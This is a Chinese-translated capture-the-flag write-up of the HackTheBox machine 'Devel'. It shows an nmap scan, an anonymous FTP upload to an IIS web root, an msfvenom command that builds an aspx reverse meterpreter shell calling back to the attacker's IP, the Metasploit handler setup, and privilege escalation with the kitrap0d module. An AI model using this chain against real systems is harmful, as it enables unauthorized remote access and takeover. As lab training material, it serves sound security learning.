









# 从 HackTheBox 开发

> 原文：<https://infosecwriteups.com/devel-from-hackthebox-21c6436acf52?source=collection_archive---------3----------------------->

## Ftp 和 windows 乐趣



大家好，这是 Hac，今天我们将从 hackthebox 开始开发，这是一个很容易退役的 windows box。有一个有趣的立足点，这可能有助于攻击和防御类型的战争游戏，例如黑客盒子战场。所以，不要浪费任何时间，让我们开始黑吧。

我们将从快速 nmap 扫描开始

```
─$ sudo nmap -sC -sV -p- 10.129.108.142 -oA nmap_all --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.93 ( [https://nmap.org](https://nmap.org) ) at 2022-10-25 02:35 EDT
Nmap scan report for 10.129.108.142
Host is up (0.082s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 26.67 seconds
```

所以有两个服务启动并运行 ftp & IIS 服务器。我们在 ftp 上有匿名登录，所以让我们检查 ftp，因为我们可能会得到一些有趣的信息，如某些东西的明文密码，或者我们可能会上传文件的 Ftp，这可能会给我们一个低特权外壳。



检查 ftp 端口 21



在 ftp 上上传. txt 文件

我能够上传一个名为“a.txt”的文件，并能够从网络服务器上访问该文件。这意味着我们可以通过上传一个 asp 文件得到一个外壳。你可能想知道为什么 aspx？为什么不是 php 或者别的什么？这是因为它是一个 windows 盒子，运行的是微软 IIS 服务器，默认情况下不支持 PHP。通过侦察，我们了解到一个名为“aspnet_client”的目录。



aspnet_client

检查 a.txt 以确保我们能够从 web 服务器访问它。



现在我试着用 msfvenom 创建一个 revershell，这是我第一次用。asp '扩展，但当上传外壳并试图从 web 服务器访问它时，我得到一个错误“500 内部服务器错误”。所以我试着创建一个有效载荷。aspx "扩展名，它的工作，我得到了一个 revershell。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=6969 -f aspx > shell.aspx
```

然后，我将最后的有效载荷上传到 ftp 服务器上&并试图从 web 服务器访问它。



在 ftp 上上传 shell.aspx

我们需要对 msfconsole 进行一些设置，以便获得 shell。顺便说一句，如果你是 1337 黑客，你也可以用 netcat 访问外壳。

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 6969
LPORT => 6969
msf6 exploit(multi/handler) > run
```

现在让我们回到 web 服务器来激活我们的有效载荷。



访问 shell.aspx

还有……我们有一个反转，让我们开始吧



我们找到一个弹壳

是时候把我们的特权升级到 root，完全 pwn 这个盒子了。

让我们从基本的系统枚举开始。通过运行“系统信息”命令，只是探索文件系统寻找密码或任何将提供信息。

```
c:\windows\system32\inetsrv>systeminfo
systeminfoHost Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          25/10/2022, 9:32:47 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.419 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.516 MB
Virtual Memory: In Use:    625 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.108.142
                                 [02]: fe80::84e5:a926:a7b4:20d4
                                 [03]: dead:beef::5005:9eb9:f501:6af
                                 [04]: dead:beef::84e5:a926:a7b4:20d4
```

嗯，从“systeminfo”命令的输出中，我们得到了主机名、操作系统版本和系统架构，我们会记下来，因为这可能会有所帮助。所以现在我们来试试“local_exploit_suggester”这是 metasploit 的一个 post 模块。



本地利用建议器输出

首先，我尝试使用“**exploit/windows/local/bypassuac _ eventvwr**”但它失败了，所以，我尝试“**exploit/windows/local/ms10 _ 015 _ kitrap 0d**”它工作了，我能够将我的权限升级到 root。


ms10_015_kitrap0d


有很多方法可以在这个盒子上找到根，但是这个是最简单的。还有一些“本地利用建议者”的替代品，如[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)。但是在这篇文章中，我试图保持事情的简单。

希望你喜欢:)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！